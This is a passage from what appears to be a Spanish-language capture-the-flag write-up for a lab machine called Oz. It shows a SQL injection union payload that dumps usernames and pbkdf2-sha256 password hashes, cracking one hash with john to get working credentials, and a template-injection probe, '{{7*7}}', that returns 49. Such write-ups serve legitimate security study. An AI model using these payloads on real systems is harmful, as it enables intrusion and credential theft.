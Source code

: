 Voy a extraer los datos de username y de password.

![](/assets/images/Oz/image6.png)

```bash
/users/'union select group_concat(username,":",password) from users_gbw-- -
```

Hemos extraido los siguientes datos.

```bash
dorthi:$pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78
tin.man:$pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk
wizard.oz:$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY
coward.lyon:$pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY
toto:$pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg
admin:$pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ 
```

Voy a intentar romper los hash con john. Se estan utlizando hash **pbkdf2-sha256**. Este proceso puede tardar un rato...

Despues dun rato obtuve el siguiente resultado:

```bash
❯ aAEMJ4z5mzdg:GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY:wizardofoz22 ?
```

Las credenciales son validas en la web del puerto 8080. (wizard.oz:wizardofoz22)

Una vez dentro veo un monton de "tickets" y ademas tengo la opción de crear tickets. Recordemos que la aplicacción web esta hecha con python, eso ya me hace pensar en inyección de plantillas.

Si intento crear un ticket con el siguiente payload "{{7*7}}" obtengo 49
